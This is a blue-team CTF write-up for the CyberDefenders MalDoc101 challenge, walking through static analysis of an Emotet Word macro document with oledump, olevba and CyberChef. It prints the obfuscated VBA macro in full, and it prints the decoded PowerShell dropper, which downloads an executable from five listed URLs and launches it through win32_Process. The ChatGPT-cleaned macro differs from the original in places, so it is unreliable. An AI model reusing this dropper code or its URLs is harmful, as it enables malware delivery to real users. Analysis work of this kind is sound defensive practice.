





### Description 
```
It is common for threat actors to utilize living off the land (LOTL) techniques, such as the execution of PowerShell to further their attacks and transition from macro code. This challenge is intended to show how you can often times perform quick analysis to extract important IOCs. The focus of this exercise is on static techniques for analysis.

As a security blue team analyst, analyze the artifacts and answer the questions.

Suggested Tools:

REMnux Virtual Machine (remnux.org)
Terminal/Command prompt w/ Python installed
Oledump
Text editor
```
### Link challenge 
> https://cyberdefenders.org/blueteam-ctf-challenges/maldoc101/
### Solution 
- Challenge for us 1 file have extension .bin. I used command file to detect the file type
```
┌──(kali㉿kali)-[~/Desktop/MalDoc101]
└─$ file sample.bin 
sample.bin: Composite Document File V2 Document, Little Endian, Os: Windows, Version 10.0, Code page: 1252, Template: Normal.dotm, Revision Number: 1, Name of Creating Application: Microsoft Office Word, Create Time/Date: Thu Jul 23 00:12:00 2020, Last Saved Time/Date: Thu Jul 23 00:12:00 2020, Number of Pages: 1, Number of Words: 3, Number of Characters: 21, Security: 0                                 
``` 
- It is a Word document. Now, we will answer the question below.
#### Question 1 : Multiple streams contain macros in this document. Provide the number of highest one.
- Firstly, I will check the number of streams in the file with command oledump 
```
┌──(kali㉿kali)-[~/Desktop/MalDoc101]
└─$ oledump sample.bin 
  1:       114 '\x01CompObj'
  2:      4096 '\x05DocumentSummaryInformation'
  3:      4096 '\x05SummaryInformation'
  4:      7119 '1Table'
  5:    101483 'Data'
  6:       581 'Macros/PROJECT'
  7:       119 'Macros/PROJECTwm'
  8:     12997 'Macros/VBA/_VBA_PROJECT'
  9:      2112 'Macros/VBA/__SRP_0'
 10:       190 'Macros/VBA/__SRP_1'
 11:       532 'Macros/VBA/__SRP_2'
 12:       156 'Macros/VBA/__SRP_3'
 13: M    1367 'Macros/VBA/diakzouxchouz'
 14:       908 'Macros/VBA/dir'
 15: M    5705 'Macros/VBA/govwiahtoozfaid'
 16: m    1187 'Macros/VBA/roubhaol'
 17:        97 'Macros/roubhaol/\x01CompObj'
 18:       292 'Macros/roubhaol/\x03VBFrame'
 19:       510 'Macros/roubhaol/f'
 20:       112 'Macros/roubhaol/i05/\x01CompObj'
 21:        44 'Macros/roubhaol/i05/f'
 22:         0 'Macros/roubhaol/i05/o'
 23:       112 'Macros/roubhaol/i07/\x01CompObj'
 24:        44 'Macros/roubhaol/i07/f'
 25:         0 'Macros/roubhaol/i07/o'
 26:       115 'Macros/roubhaol/i09/\x01CompObj'
 27:       176 'Macros/roubhaol/i09/f'
 28:       110 'Macros/roubhaol/i09/i11/\x01CompObj'
 29:        40 'Macros/roubhaol/i09/i11/f'
 30:         0 'Macros/roubhaol/i09/i11/o'
 31:       110 'Macros/roubhaol/i09/i12/\x01CompObj'
 32:        40 'Macros/roubhaol/i09/i12/f'
 33:         0 'Macros/roubhaol/i09/i12/o'
 34:     15164 'Macros/roubhaol/i09/o'
 35:        48 'Macros/roubhaol/i09/x'
 36:       444 'Macros/roubhaol/o'
 37:      4096 'WordDocument'
```
- We have a total 16 streams and and the letter 'm' indicates that a stream contains a macro. The highest macro stream is 16.

> Answer : 16

#### What event is used to begin the execution of the macros?
- Change the file name from sample.bin to sample.docm and open it : 
```
┌──(kali㉿kali)-[~/Desktop/MalDoc101]
└─$ mv sample.bin sample.docm
```
- I opened the file with LibreOffice and viewed the macros via `Tool -> Macros -> Edit macros`

- We can see a private subroutine that runs automatically when the document is opened, after it then calls boaxvoebxiotqueb

> Answer : Document_open

#### What malware family was this maldoc attempting to drop?

- Open the file with VirusTotal, and we detect that the malware family is Emotet.


> Answer : emotet

#### What stream is responsible for the storage of the base64-encoded string?
- Return to the file sample.docx. I used the `olevba` tool to examine the macro code.
- In the stream `Macros/roubhaol/i09/o`, I found code that appears to be Base64 but includes some strange inserted characters:

- I used oledump to view Stream number.
```
 28:       110 'Macros/roubhaol/i09/i11/\x01CompObj'
 29:        40 'Macros/roubhaol/i09/i11/f'
 30:         0 'Macros/roubhaol/i09/i11/o'
 31:       110 'Macros/roubhaol/i09/i12/\x01CompObj'
 32:        40 'Macros/roubhaol/i09/i12/f'
 33:         0 'Macros/roubhaol/i09/i12/o'
 34:     15164 'Macros/roubhaol/i09/o'
 35:        48 'Macros/roubhaol/i09/x'
 36:       444 'Macros/roubhaol/o'
```
- Stream number is 34
> Answer : 34

#### This document contains a user-form. Provide the name?
- I don't know what a user-form is. so I searched on Google  and found a blog post: https://blog.hocexcel.online/vba-userform-controls-huong-dan-cho-moi-nguoi.html
- I accessed in LibreOffice to view name of the user-form


> Answer : roubhaol

#### This document contains an obfuscated base64 encoded string; what value is used to pad (or obfuscate) this string?

<details>
<summary>
VBA code
</summary>

```
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1
Function boaxvoebxiotqueb()
gooykadheoj = Chr(roubhaol.Zoom + Int(5 * 3))
Dim c7ÓATOQe2Ëj As Integer
c7ÓATOQe2Ëj = 6
Do While c7ÓATOQe2Ëj < 6 + 2
c7ÓATOQe2Ëj = c7ÓATOQe2Ëj + 5: DoEvents
Loop
haothkoebtheil = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqw2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqm2342772g3&*gs7712ffvs626fqgm2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqt2342772g3&*gs7712ffvs626fq" + gooykadheoj + "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqin2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" + roubhaol.joefwoefcheaw + "2342772g3&*gs7712ffvs626fqr2342772g3&*gs7712ffvs626fqo2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fqc2342772g3&*gs7712ffvs626fqes2342772g3&*gs7712ffvs626fqs2342772g3&*gs7712ffvs626fq"
Dim t0Á7ÖVhC As String
t0Á7ÖVhC = Replace$("NrsGblssw", "NrsGbl", "jeSyf")
deulsaocthuul = juuvzouchmiopxeox(haothkoebtheil)
Dim aboKTWBmOV As Variant
Set tiajriokchaoy = CreateObject(deulsaocthuul)
Dim Li2ÚJ8âfUTJJ As Boolean
deaknaugthein = roubhaol.kaizseah.ControlTipText
Dim Wmuaj As String
Wmuaj = Replace$("LqdFaWZRoPXoybkSqY", "LqdFaWZRoP", "nIEI6Ý")
giakfeiw = deulsaocthuul + gooykadheoj + roubhaol.paerwagyouqumeid.ControlTipText + deaknaugthein
Dim lgiLh7Ë As Object
queegthaen = giakfeiw + roubhaol.joefwoefcheaw
Dim FZV4ÇKPQ As Integer
FZV4ÇKPQ = 4
Do While FZV4ÇKPQ < 4 + 5
FZV4ÇKPQ = FZV4ÇKPQ + 3: DoEvents
Loop
Set deavjoajsear = luumlaud(queegthaen)
Dim kRpYwyW As String
kRpYwyW = Replace$("f4åL5åJqZNvlk", "f4åL5åJ", "TFRkfTygd")
xve = Array _
("1234444123", tiajriokchaoy. _
Create(geulgelquuuj, kaenhaig, deavjoajsear), "9938723")
Dim C0ÄjVh As Integer
C0ÄjVh = 9
Do While C0ÄjVh < 9 + 1
C0ÄjVh = C0ÄjVh + 1: DoEvents
Loop
End Function
Function juuvzouchmiopxeox(yiajthoavheiw)
geutyoeytiestheug = yiajthoavheiw
Dim QSuRcu As Currency
feaxgeip = Split(geutyoeytiestheug, "2342772g3&*gs7712ffvs626fq")
Dim J1Â8ÀXwEwAd As String
J1Â8ÀXwEwAd = Replace$("UBZIWrn7ÆJAPVmt", "UBZI", "hsvq")
jaquhoiqu = csqw + Join(feaxgeip, eihnx)
Dim gBv As Object
juuvzouchmiopxeox = jaquhoiqu
Dim lqsqsHrCH As Boolean
End Function
Function geulgelquuuj()
sjiqw = roubhaol.gaoddaicsauktheb.Pages(10 / 10).ControlTipText
Dim ISXQDR As Integer
ISXQDR = 2
Do While ISXQDR < 2 + 7
ISXQDR = ISXQDR + 9: DoEvents
Loop
geulgelquuuj = juuvzouchmiopxeox(sjiqw)
Dim kbqvO4Ä7Çr As Byte
End Function
Function luumlaud(zeolkaepxoag)
Set luumlaud = CreateObject(zeolkaepxoag)
Dim vPu As String
vPu = Replace$("BenqV1áigVwifwdQq", "BenqV1ái", "on5Â")
luumlaud _
. _
showwindow = (mujgoiy + jioyseertioch) + (neivberziok + xuajroegquoudcaij)
Dim osWIUnikOk As String
osWIUnikOk = Replace$("cLwhWVLMDSQFh3ÔT7É", "cLwhWVLMDS", "AvYXNNS")
End Function

```

</details>

- I use chatgpt to make the code more readable
- This is the code after editing
```
Rem Attribute VBA_ModuleType=VBAModule
Option VBASupport 1

Function generateObject()
    chrValue = Chr(controlObject.Zoom + Int(5 * 3))
    Dim counter1 As Integer
    counter1 = 6
    Do While counter1 < 6 + 2
        counter1 = counter1 + 5: DoEvents
    Loop

    encryptedString = "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq" & chrValue & _
                      "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq" & controlObject.value & _
                      "2342772g3&*gs7712ffvs626fq" & controlObject.joefwoefcheaw & _
                      "2342772g3&*gs7712ffvs626fq" & chrValue & _
                      "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq:w2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq" & _
                      "2342772g3&*gs7712ffvs626fq322342772g3&*gs7712ffvs626fq_2342772g3&*gs7712ffvs626fq" & controlObject.joefwoefcheaw & _
                      "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq" & controlObject.joefwoefcheaw & _
                      "2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq2342772g3&*gs7712ffvs626fq"

    Dim modifiedString As String
    modifiedString = Replace$("NrsGblssw", "NrsGbl", "jeSyf")
    decryptedString = decryptString(encryptedString)
    
    Dim objectInstance As Variant
    Set objectInstance = CreateObject(decryptedString)
    
    Dim isControlVisible As Boolean
    controlTip = controlObject.kaizseah.ControlTipText
    
    Dim replacedString As String
    replacedString = Replace$("LqdFaWZRoPXoybkSqY", "LqdFaWZRoP", "nIEI6Ý")
    
    concatenatedString = decryptedString & chrValue & controlObject.paerwagyouqumeid.ControlTipText & controlTip
    concatenatedString = concatenatedString & controlObject.joefwoefcheaw
    
    Dim loopCounter As Integer
    loopCounter = 4
    Do While loopCounter < 4 + 5
        loopCounter = loopCounter + 3: DoEvents
    Loop

    Set objectCreated = createObjectInstance(concatenatedString)

    Dim finalString As String
    finalString = Replace$("f4åL5åJqZNvlk", "f4åL5åJ", "TFRkfTygd")
    resultArray = Array("1234444123", objectInstance.Create(generateString, concatenateValues, objectCreated), "9938723")

    Dim finalCounter As Integer
    finalCounter = 9
    Do While finalCounter < 9 + 1
        finalCounter = finalCounter + 1: DoEvents
    Loop
End Function

Function decryptString(inputString)
    decryptedValue = inputString
    Dim currencyValue As Currency
    splitValues = Split(decryptedValue, "2342772g3&*gs7712ffvs626fq")
    
    Dim replacedValue As String
    replacedValue = Replace$("UBZIWrn7ÆJAPVmt", "UBZI", "hsvq")
    joinedString = concatenateValues & Join(splitValues, eihnx)
    
    Dim objectVar As Object
    decryptString = joinedString
    
    Dim booleanVar As Boolean
End Function

Function generateString()
    pageText = controlObject.gaoddaicsauktheb.Pages(10 / 10).ControlTipText
    
    Dim integerVar As Integer
    integerVar = 2
    Do While integerVar < 2 + 7
        integerVar = integerVar + 9: DoEvents
    Loop
    
    generateString = decryptString(pageText)
    
    Dim byteVar As Byte
End Function

Function createObjectInstance(inputString)
    Set createObjectInstance = CreateObject(inputString)
    
    Dim replacedValue As String
    replacedValue = Replace$("BenqV1áigVwifwdQq", "BenqV1ái", "on5Â")
    
    createObjectInstance.showwindow = (mujgoiy + jioyseertioch) + (neivberziok + xuajroegquoudcaij)
    
    Dim finalString As String
    finalString = Replace$("cLwhWVLMDSQFh3ÔT7É", "cLwhWVLMDS", "AvYXNNS")
End Function
```
- In the string `splitValues = Split(decryptedValue, "2342772g3&*gs7712ffvs626fq")`, it splits the variable `decryptedValue` using the delimiter "2342772g3&*gs7712ffvs626fq".
- After that, the string "UBZIWrn7ÆJAPVmt" is processed to replace "UBZI" with "hsvq":
```
replacedValue = Replace$("UBZIWrn7ÆJAPVmt", "UBZI", "hsvq")
```
- Finally, the strings are concatenated as follows

```
joinedString = concatenateValues & Join(splitValues, eihnx)
```
- So value used to pad (or obfuscate) this string is "2342772g3&*gs7712ffvs626fq"

> Answer : 2342772g3&*gs7712ffvs626fq

#### What is the program executed by the base64 encoded string?

- We will decode from vba code, but I get code from VirusTotal 

- It shows that a PowerShell program is called.

> Answer : powershell 

#### What WMI class is used to create the process to launch the trojan?
- I used cyberchef to decode base64 code, this is output
<details>
<summary>
Powershell code 
<summary>

```
$liechrouhwuw = 'vuacdouvcioxhaol';
[Net.ServicePointManager]::"SE`cuRiTy`PRO`ToC`ol" = 'tls12, tls11, tls';
$deichbeudreir = '337';
$quoadgoijveum = 'duuvmoezhaitgoh';
$toehfethxohbaey = $env:userprofile + '\'+$deichbeudreir+'.exe';
$sienteed='quainquachloaz';
$reusthoas=.('n'+'ew - ob'+'ject') nEt.weBclIenT;
$jacleewyiqu='https://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*https://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*http://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*http://holfve.se/images/1ckw5mj49w_2k11px_d/*http://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);$seccierdeeth='duuzyeawpuaqu';
foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);
$buhxeuh='doeydeidquaijleuc';If ((.('Get-'+'Ite'+'m') $toehfethxohbaey)."l`eNGTH" -ge 24751) {([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);
$quoodteeh='jiafruuzlaolthoic';break;$chigchienteiqu='yoowveihniej'}}catch{}}$toizluulfier='foqulevcaoj'
```
</details>
- In line `{([wmiclass]'win32_Process')."C`ReaTe"($toehfethxohbaey);`, class `win32_Process` of wmiclass used to create the process to launch the trojan?

#### Multiple domains were contacted to download a trojan. Provide first FQDN as per the provided hint.
- In line 
```
$jacleewyiqu='https://haoqunkong.com/bn/s9w4tgcjl_f6669ugu_w4bj/*https://www.techtravel.events/informationl/8lsjhrl6nnkwgyzsudzam_h3wng_a6v5/*http://digiwebmarketing.com/wp-admin/72t0jjhmv7takwvisfnz_eejvf_h6v2ix/*http://holfve.se/images/1ckw5mj49w_2k11px_d/*http://www.cfm.nl/_backup/yfhrmh6u0heidnwruwha2t4mjz6p_yxhyu390i6_q93hkh3ddm/'."s`PliT"([char]42);
```
- Multiple domains were contacted to download a trojan with 
```
foreach($geersieb in $jacleewyiqu){try{$reusthoas."dOWN`loA`dfi`Le"($geersieb, $toehfethxohbaey);
```
> Answer : haoqunkong.com


